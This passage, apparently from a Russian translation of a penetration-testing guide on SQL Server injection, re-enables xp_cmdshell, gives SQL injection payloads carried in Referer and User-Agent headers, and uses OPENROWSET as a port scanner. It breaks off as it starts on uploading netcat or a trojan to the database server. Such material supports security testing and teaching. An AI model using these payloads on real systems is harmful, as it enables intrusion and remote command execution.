 Этот код, написанный Антонином Фоллером (см. Ссылки внизу страницы), создаёт новый `xp_cmdshell`, используя `sp_oacreate`, `sp_oamethod` и `sp_oadestroy` (если, конечно, они тоже не были отключены). Перед его использованием нужно удалить первый созданный нами `xp_cmdshell` (даже если он не работал), в противном случае объявления будут конфликтовать.

В SQL Server 2005 можно включить `xp_cmdshell`, введя вместо этого следующий код:

```sql
master..sp_configure 'show advanced options',1
reconfigure
master..sp_configure 'xp_cmdshell',1
reconfigure
```

### Пример 6: Referer / User-Agent

Заголовок `REFERER`, установленный в значение

`Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 'some_ip'); [код SQL]--`

позволяет выполнять произвольный код SQL. То же самое происходит с заголовком User-Agent, установленным в значение

`User-Agent: user_agent', 'some_ip'); [код SQL]--`

### Пример 7: SQL Server в качестве сканера портов

В SQL Server одной из наиболее полезных (по крайней мере, для тестирования на проникновение) команд является OPENROWSET, которая используется для выполнения запроса на другом сервере БД и получения результатов. Тестировщик может использовать эту команду для сканирования портов других компьютеров в целевой сети, посредством следующего запроса:

`select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foobar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','select 1')--`

Этот запрос попытается подключиться к адресу x.y.w.z по порту p. Если порт закрыт, будет возвращено следующее сообщение:

`SQL Server does not exist or access denied`

С другой стороны, если порт открыт, будет возвращена одна из следующих ошибок:

`General network error. Check your network documentation`

`OLE DB provider 'sqloledb' reported an error. The provider did not give any information about the error.`

Конечно, сообщение об ошибке выдаётся не всегда. Если это так, мы можем использовать время отклика, чтобы понять, что происходит: с закрытым портом будет время ожидания (5 секунд в этом примере), тогда как открытый порт выдаст результат сразу.

Имейте в виду, что OPENROWSET по умолчанию включен в SQL Server 2000, и отключен, начиная с SQL Server 2005.

### Пример 8: Загрузка исполняемых файлов

Как только мы сможем использовать `xp_cmdshell` (стандартный или пользовательский), мы сможем легко загружать исполняемые файлы на целевой сервер БД. Очень частым выбором является `netcat.exe`, но здесь подойдет любой троян. Если цели разрешены FTP-подключения к машине тестировщика, то всё, что нужно, — это ввести следующие запросы:
